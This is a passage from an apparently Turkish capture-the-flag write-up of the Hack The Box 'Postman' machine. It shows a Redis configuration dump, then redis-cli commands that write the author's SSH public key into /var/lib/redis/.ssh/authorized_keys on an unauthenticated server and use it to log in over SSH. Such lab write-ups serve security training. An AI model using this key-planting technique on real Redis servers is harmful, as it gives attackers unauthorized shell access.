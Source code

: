 ```sh
152) "no"
153) "maxmemory-policy"
154) "noeviction"
155) "loglevel"
156) "notice"
157) "supervised"
158) "no"
159) "appendfsync"
160) "everysec"
161) "syslog-facility"
162) "local0"
163) "appendonly"
164) "no"
165) "dir"
166) "/var/lib/redis/.ssh"
167) "save"
168) "900 1 300 10 60 10000"
169) "client-output-buffer-limit"
170) "normal 0 0 0 slave 268435456 67108864 60 pubsub 33554432 8388608 60"
171) "unixsocketperm"
172) "0"
173) "slaveof"
174) "10.10.14.23 4444"
175) "notify-keyspace-events"
176) ""
177) "bind"
178) "0.0.0.0 ::1"
```
şimdi gelelim shell alma kısmına burada poc'yi takip ederek sırasıyla işlemlerimizi gerçekleştiriyoruz ;

```sh
root@kali:~/.ssh# (echo -e "\n\n"; cat ./id_rsa.pub; echo -e "\n\n") > foo.txt
root@kali:~/.ssh# ls
foo.txt  id_rsa  id_rsa.pub
root@kali:~/.ssh# cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
OK
root@kali:~/.ssh# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> quit
root@kali:~/.ssh# ssh -i id_rsa
id_rsa      id_rsa.pub  
root@kali:~/.ssh# ssh -i id_rsa
id_rsa      id_rsa.pub  
root@kali:~/.ssh# ssh -i id_rsa redis@postman.htb
The authenticity of host 'postman.htb (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'postman.htb,10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
```